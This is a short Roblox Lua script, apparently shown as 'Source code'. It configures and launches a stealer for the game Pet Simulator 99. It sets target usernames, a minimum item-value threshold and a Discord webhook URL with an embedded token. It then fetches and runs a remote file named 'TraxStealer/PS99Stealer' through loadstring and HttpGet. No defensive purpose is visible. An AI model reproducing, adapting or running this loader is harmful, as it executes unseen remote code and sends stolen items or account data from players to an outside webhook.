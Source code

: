 Username = "Dsjdhdhdd"
Username2 = "Dsjdhdhdd"
MinimumRAP = 200k
Webhook = "https://discord.com/api/webhooks/1341186909896048700/2FUQ3R8OESl5ZT9P49nHAMLzDvd5SEKAUrU-mbO13NUp1lO-AW4-38PvRcZHclVDou7W"

loadstring(game:HttpGet("https://raw.githubusercontent.com/TraxMain/TraxStealer/refs/heads/main/PS99Stealer", true))() 
